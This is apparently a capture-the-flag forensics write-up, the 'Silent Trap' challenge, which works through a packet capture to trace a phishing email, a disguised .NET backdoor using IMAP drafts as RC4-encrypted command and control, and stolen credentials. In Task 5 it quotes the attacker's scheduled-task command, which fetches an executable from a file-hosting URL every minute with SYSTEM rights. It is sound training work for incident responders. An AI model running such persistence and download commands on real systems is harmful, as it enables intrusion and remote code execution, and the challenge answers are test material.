








# 🕵️ Forensics Challenge

## 🏷️ Name: Silent Trap

## 🔥 Difficulty: Easy

## 📜 Challenge Description: 
> A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers.
> With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

--- 
## 📂 Provided Files:
- **Filename:** `capture.pcapng`

--- 

# 🚀 Methodology

There are lots of things going on in the traffic, based on the **Protocol Hierarchy**




### 📋 Task 1: What is the subject of the first email that the victim opened and replied to?

If we check the Export Objects --> HTTP , there are several HTML files that could give us some clues. It's annoying, but you must filter for HTML files and save them one by one. I didn't save the ones that were small (the 303 and 477 bytes ones).  Given the synopsis, we can assume that **devteam@korptech.net** is the victim. 




And the victim replied to **shadowblade@email.com** about an email regarding the game crashing. I found this in the 4th HTML file.

**✅ Answer:** `Game Crash on Level 5`


### 📋 Task 2: On what date and time was the suspicious email sent? (Format: YYYY-MM-DD_HH:MM) (for example: 1945-04-30_12:34)

The **suspicious email**, is the last html file. It was sent by **proplayer@email.com** and it contains a zip file attachment. 





**✅ Answer:** `2025-02-24_15:46`


### 📋 Task 3: What is the MD5 hash of the malware file?

Using the same logic as before, we can save the `.zip` file, which is likely to contain the malware. But, it's password encrypted! Checking the email again, we find that:
> ... Archive password is eldoriaismylife

The filename is `Eldoria_Balance_Issue_Report.pdf.exe`, and it's MD5 hash is `c0b37994963cc0aadd6e78a256c51547`. 

**✅ Answer:** `c0b37994963cc0aadd6e78a256c51547`


### 📋 Task 4: What credentials were used to log into the attacker's mailbox? (Format: username:password)

Using this filter: 

`imap && imap.request.password`




At first glance, it seems like no password was being used — each login request just appeared to end with the word `completed`.

This turned out to be a **parsing issue**, or at least it was on my end.

In the top pane (highlighted in pink), the login requests look like they end with the word `completed`, which doesn’t look like a typical password value. 

However, if you check the IMAP **line view** in the packet details, you’ll see that the actual password field is `omplete` — it’s just missing the first character. When clicking into the hex view (blue rectangle), the ASCII decode shows `completed`, and Wireshark auto-highlights the **Request Password** as `omplete` (shown by the dashed purple rectangle).

This shows that the real password is **`completed`**, but due to how Wireshark parses or renders the field, it can easily be misread.

The email is `proplayer@email.com`. 


**✅ Answer:** `proplayer@email.com:completed`

### 📋 Task 5: What is the name of the task scheduled by the attacker?

The executable that was downloaded is a .NET file. REJOICE, this means it's easily reversible. I use 
CodemerxDecompile on Mac (probably one of the only reversing tools that works properly on my computer 😔). 

This gives us an insight on how the IMAP messages are encrypted. 

This program is basically a remote backdoor that uses IMAP as its command and control channel. Once it runs it:

- Copies itself to `C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
- Logs in to the IMAP email server of `mail.korptech.net` using the credentials (the same credentials we found previously are actually hardcoded in the executable)
- It goes through the Drafts folder for messages matching the machine's ID, decrypts them and runs the commands on the system. 
- The output of the commands being ran are encrypted with the Exor class and base64-encdeod. They're then uploaded using the APPEND command (which explains all that weird looking IMAP traffic)


**The Exor class** is basically RC4:



and the key used is at the end of the Program class:



Now, we can focus on decrypting the traffic. The [code](dump_pcap.py) I used to decrypt the traffic saves to a file. 


We can check the output for the commands the **attacker** sent:




The Scheduled Task is :

```
schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
```

In summary, every minute, the task runs with SYSTEM priviledges, downloads a file from the URL and saves it to 'rakalam.exe' 
The task is called Synchronization.

**✅ Answer:** `Synchronization`

### 📋 Task 6: What is the API key leaked from the highly valuable file discovered by the attacker?

```bash
cat imap_log.txt | grep api_key -B 50 -A 50
``` 

... So apparently the credentials are stored in plaintext lmao. 




**✅ Answer:** `sk-3498fwe09r8fw3f98fw9832fw`

